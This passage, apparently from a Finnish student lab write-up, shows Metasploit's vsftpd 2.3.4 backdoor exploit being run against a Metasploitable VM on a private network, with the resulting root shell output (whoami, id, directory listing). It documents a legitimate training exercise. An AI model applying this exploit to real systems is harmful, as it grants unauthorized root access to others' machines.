 ```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.60.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.60.4:21 - USER: 331 Please specify the password.
[+] 192.168.60.4:21 - Backdoor service has been spawned, handling...
[+] 192.168.60.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (192.168.60.3:43811 -> 192.168.60.4:6200) at 2023-04-01 19:45:55 -0400

```
Exploit onnistuis. Metasploitableen on nyt root yhteys Backdoorilla ja voin ajaa sinne komentoja:

```bash
whoami
root
id
uid=0(root) gid=0(root)

ls -la
total 89
drwxr-xr-x  21 root root  4096 May 20  2012 .
drwxr-xr-x  21 root root  4096 May 20  2012 ..
drwxr-xr-x   2 root root  4096 May 13  2012 bin
drwxr-xr-x   4 root root  1024 May 13  2012 boot
lrwxrwxrwx   1 root root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  14 root root 13480 Apr  1 18:22 dev
drwxr-xr-x  94 root root  4096 Apr  1 18:22 etc
drwxr-xr-x   6 root root  4096 Apr 16  2010 home
drwxr-xr-x   2 root root  4096 Mar 16  2010 initrd
lrwxrwxrwx   1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x  13 root root  4096 May 13  2012 lib
drwx------   2 root root 16384 Mar 16  2010 lost+found
drwxr-xr-x   4 root root  4096 Mar 16  2010 media
drwxr-xr-x   3 root root  4096 Apr 28  2010 mnt
-rw-------   1 root root  6542 Apr  1 18:22 nohup.out
drwxr-xr-x   2 root root  4096 Mar 16  2010 opt
dr-xr-xr-x 112 root root     0 Apr  1 18:22 proc
drwxr-xr-x  13 root root  4096 Apr  1 18:22 root
drwxr-xr-x   2 root root  4096 May 13  2012 sbin
drwxr-xr-x   2 root root  4096 Mar 16  2010 srv
drwxr-xr-x  12 root root     0 Apr  1 18:22 sys
drwxrwxrwt   4 root root  4096 Apr  1 18:52 tmp
drwxr-xr-x  12 root root  4096 Apr 28  2010 usr
drwxr-xr-x  14 root root  4096 Mar 17  2010 var
lrwxrwxrwx   1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
